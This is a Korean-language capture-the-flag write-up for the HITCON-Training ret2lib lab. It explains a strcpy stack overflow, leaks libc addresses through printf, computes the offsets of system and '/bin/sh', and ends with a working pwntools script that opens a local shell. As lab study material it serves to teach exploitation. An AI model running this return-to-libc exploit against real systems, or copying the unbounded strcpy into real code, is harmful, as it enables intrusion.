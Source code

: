 # [HITCON-Training] Lab04 ret2lib 풀이

- checksec을 통해 보호기법 확인하기

![image](https://user-images.githubusercontent.com/59410565/118209666-023b2980-b4a4-11eb-8c11-89ae5ef44e8f.png)

32bit 파일이고, Partial RELRO와 NX가 적용되어 있다. RET 변조를 통해 문제를 해결할 수 있을 것 같다.

- ret2lic 코드 살펴보기

```c
#include <stdio.h>

void See_something(unsigned int addr){
	int *address ;
	address = (int *)addr ;
	printf("The content of the address : %p\n",*address);
};

void Print_message(char *mesg){
	char buf[48];
	strcpy(buf,mesg);
	printf("Your message is : %s",buf);
}

int main(){
	char address[10] ;
	char message[256];
	unsigned int addr ;
	puts("###############################");
	puts("Do you know return to library ?");
	puts("###############################");
	puts("What do you want to see in memory?");
	printf("Give me an address (in dec) :");
	fflush(stdout);
	read(0,address,10);
	addr = strtol(address);
	See_something(addr) ;
	printf("Leave some message for me :");
	fflush(stdout);
	read(0,message,256);
	Print_message(message);
	puts("Thanks you ~");
	return 0 ;
}
```

//main() 함수

> 저번에 정리했던 Lazenca Return to libc와 비슷한 구조인 것 같다.

- read() 함수가 정해진 address와 message길이만큼 읽어오기 때문에 overflow가 불가능하다.
- fflush() 함수는 파일 스트림 버퍼를 비우는 함수이다. 성공시 0을 반환하고, 에러시 EOF를 반환한다.

//See_something() 함수

- address 변수의 주소를 출력한다. leak에 사용

//Print_message() 함수

- dest에 src를 복사하는데 이때 buf의 크기(48)보다 mesg의 크기(256)가 작기 때문에 overflow가 발생한다. 

------



### 풀이

![image](https://user-images.githubusercontent.com/59410565/118213181-65c75600-b4a8-11eb-8f66-aa66a495fe2b.png)

**[Break Point]**

- Print_message + 0 : Print_message()의 첫 번째 명령어
- Print_message + 19 : strcpy() 함수 호출
- Print_message + 44 : Print_message()의 RET 명령어

![image](https://user-images.githubusercontent.com/59410565/118213572-2f3e0b00-b4a9-11eb-9b5a-b83af8d54a62.png)

프로그램을 실행시키고 아무 숫자나 입력했더니 Segmentation fault가 떴다.

- leak을 위해 IDA로 printf 주소 알아내기

![image](https://user-images.githubusercontent.com/59410565/118215248-26026d80-b4ac-11eb-9020-25e6d4ef1be3.png)

printf()의 주소는 0x0804a010이다. 이 주소를 10진수로 변환하여 입력해주면 segmentation fault 없이 실행할 수 있을 것 같다.

![image](https://user-images.githubusercontent.com/59410565/118215592-c22c7480-b4ac-11eb-891c-808c1e3bc7bc.png)

다시 실행해보자.

![image](https://user-images.githubusercontent.com/59410565/118215640-e38d6080-b4ac-11eb-9894-83ebb2d03e00.png)

다음으로 잘 넘어가는 것을 볼 수 있다. print() 함수의 주소는 **0xf7e4c680**이다.

이제 message의 크기만큼 A를 입력해보자.

![image](https://user-images.githubusercontent.com/59410565/118215743-1c2d3a00-b4ad-11eb-8baf-0c21f64b0d44.png)

![image](https://user-images.githubusercontent.com/59410565/118215841-54347d00-b4ad-11eb-9be9-a6821eb59ba4.png)

Print_message() 함수의 최상위 스택 주소는 0xffffcedc이다. 이 영역에 Return address(0x08048657)가 저장되어 있다.

![image](https://user-images.githubusercontent.com/59410565/118216032-b2616000-b4ad-11eb-9d5e-46937de0ab39.png)

![image](https://user-images.githubusercontent.com/59410565/118216190-ffddcd00-b4ad-11eb-8d8a-ae21daa372ac.png)

buf(=dest)의 위치는 0xffffcea0이고, Return address와 60byte 떨어져 있다. 즉, 문자를 60개 이상 입력하면, Return address를 덮어쓸 수 있다.

![image](https://user-images.githubusercontent.com/59410565/118216361-54814800-b4ae-11eb-8251-0f2b4d23e86c.png)  

![image](https://user-images.githubusercontent.com/59410565/118216404-66fb8180-b4ae-11eb-801c-a42f89ce2ab4.png)

0xffffcedc의 영역이 바뀌었다.

**["/bin/sh" 주소 찾기]**

![image](https://user-images.githubusercontent.com/59410565/118216513-9e6a2e00-b4ae-11eb-98a2-6c10b258a691.png) 

- 0xf7e4c680(printf function address in libc) - 0xf7e0c000(libc Start Address) = 0x40680(libc Base Address offset)
- 0xf7e3ddb0(system function address in libc) - 0xf7e0c000(libc Start Address) = 0x31db0(system function Address offset)
- 0xf7f5eb2b("/bin/sh" string address in libc) - 0xf7e0c000(libc Start Address) = 0x152b2b("/bin/sh" string Address offset)

![image](https://user-images.githubusercontent.com/59410565/118216745-0b7dc380-b4af-11eb-80c0-4ba0c99ff8db.png)

------



### Exploit

```python
from pwn import *

p = process("./ret2lib")

p.sendlineafter("Give me an address (in dec) :", "134520848")

p.recvuntil("The content of the address : ")
printAddr = p.recvuntil('\n')
printAddr = int(printAddr, 16)

libcBase = printAddr - 0x40680
sysAddr = libcBase + 0x31db0
binsh = libcBase + 0x152b2b
p.recvuntil("Leave some message for me :")

print hex(libcBase)
print hex(sysAddr)
print hex(binsh)

exploit = "A" * 60
exploit += p32(sysAddr)
exploit += 'BBBB'
exploit += p32(binsh)

p.send(exploit)
p.interactive()

```



![image](https://user-images.githubusercontent.com/59410565/118217954-703a1d80-b4b1-11eb-81b0-34b6a33c58e8.png)

